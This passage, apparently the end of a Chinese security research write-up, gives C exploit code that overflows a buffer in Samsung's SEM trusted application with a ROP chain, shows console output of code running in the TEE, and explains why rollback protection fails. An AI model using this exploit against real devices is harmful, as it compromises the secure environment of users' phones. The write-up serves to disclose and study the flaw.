 ```
        stack_size += 0x20;  // popped registers size

        // fill tciBuffer
        tci[0] = 27;                             // cmd id
        tci[3] = stack_size + sizeof(rop_chain); // memcpy size
        memcpy(&amp;tci[4 + stack_size/4], &amp;rop_chain, sizeof(rop_chain));

        // notify the TA
        mcNotify(&amp;session);
        mcWaitNotification(&amp;session, 2000);
        mcCloseSession(&amp;session);
    `}`
    mcCloseDevice(MC_DEVICE_ID_DEFAULT);
    return 0;
`}`
```

```
dreamlte:/ # /data/local/tmp/exploit_sem
[+] Address in TA virtual memory : 0x2005f0

dreamlte:/ # dmesg -c | grep TEE
TEE: b01|[I]SEM  [INFO]:Start SEM TA :: Version: 2016.06.15.1
TEE: b01|[E]SEM  Wrong CCM version
TEE: b01|[E]SEM  Wrong CCM version
TEE: b01|[E]SEM  handleCCMDataSWP [ error END]
TEE: b01|--&gt; Hello from the trusted application &lt;--
```



## 结论

本文展示了在可信应用中实现任意代码执行有多么容易。SEM应用程序包含其他很多漏洞，但堆栈cookie限制了攻击的实现。

TA中已修补的漏洞在最新的设备上应该是不可利用的，因为TEE提供了一种反回滚机制（anti-rollback）。不幸的是，在合并与安全相关的补丁时，三星并不总是增加版本号。这是SEM TA的情况，这意味着旧版本仍然可以加载和利用。在许多三星设备上，反回滚机制似乎根本不起作用(就像在S8上那样)。

在可信应用中获得代码执行大大增加了攻击面，因为攻击者可以与安全驱动程序和TEE内核系统交互。
